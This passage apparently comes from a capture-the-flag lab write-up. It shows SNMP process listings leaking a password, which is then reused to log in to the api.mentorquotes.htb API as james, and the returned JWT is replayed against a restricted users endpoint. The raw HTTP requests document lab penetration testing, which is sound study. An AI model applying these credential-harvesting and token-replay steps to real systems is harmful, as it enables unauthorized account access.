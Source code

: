 ```bash
HOST-RESOURCES-MIB::hrSWRunParameters.2454 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2486 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2530 = ""

...
```

It found a script running on the server, with what looked like a password in the command line.

I used the password to connect as james.

```http
POST /auth/login HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 100

{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "REDACTED"
}
```

It worked.

```http
HTTP/1.1 200 OK
Date: Sun, 26 Feb 2023 16:29:18 GMT
Server: uvicorn
content-length: 154
content-type: application/json
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

"JWT"
```

I used the returned JWT to try the requests that were rejected earlier.

```http
GET /users/ HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Authorization: JWT
```

